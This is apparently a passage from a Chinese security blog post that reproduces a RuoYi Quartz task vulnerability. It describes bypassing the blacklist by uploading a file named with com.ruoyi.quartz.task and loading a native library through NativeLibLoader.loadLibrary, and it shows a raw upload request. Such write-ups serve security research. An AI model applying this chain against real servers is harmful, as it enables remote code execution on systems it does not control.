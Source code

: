 ![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicHTWHmHj1roFsCibe61sbMsMO5pdkFylqxJmicSaB7wuDOcyW52mHPoicA/640?wx_fmt=png&from=appmsg "")  
  
我们想要利用需要达成的是  
- 使用的类不在黑名单中  
  
- 要存在com.ruoyi.quartz.task字符串  
  
- 不可以使用rmi ldap http协议  
  
#### 文件上传  
  
而在ruoyi中存在一个文件上传点  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicDotcPS5y97YT2lyhonibic5VrxODRJ72WyP0t34cbkcHUgvnrXvl81bw/640?wx_fmt=png&from=appmsg "")  
  
我们可以随便上传一个文件看看  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicAqKHsoXpLJVMY8GEkcyA6JP69mAVtd3Wk0cpNG0G6XoW0bZfUyutXg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicZH83CB98pOnzcicwAWLbvrcJoaUoyTe0THeWQOA0mjtRuVBbCnoXplw/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
那么我们可以上传一个名字包含com.ruoyi.quartz.task字符串的文件  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicUSxhkCR9ZUvia7Fzznic1Z37HOFibQklIm6NUOdOur965gGKp5wGuicPOA/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
  
在java中存在一种机制叫做JNI，可以通过加载外部链接库，从而执行其中的<font style="color:rgba(0, 0, 0, 0.85);">构造函数</font>  
  
而com.sun.glass.utils.NativeLibLoader的loadLibrary方法就可以去加载链接库，也是public修饰  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicY1pNhZI03DcytfCNcXOMV2gldwck00kIy1rY1ZdgrZl39jOtWpNZPw/640?wx_fmt=png&from=appmsg "")  

```
POST /common/upload HTTP/1.1
Host: 10.40.107.67
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=b414f17a-7363-47d9-b164-3d0532a09b1c
x-forwarded-for: 127.0.0.1
Connection: close
Content-Type: multipart/form-data; boundary=00content0boundary00
Content-Length: 167

--00content0boundary00
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;com.ruoyi.quartz.task.txt&#34;
Content-Type: image/jpg

success
--00content0boundary00--

```
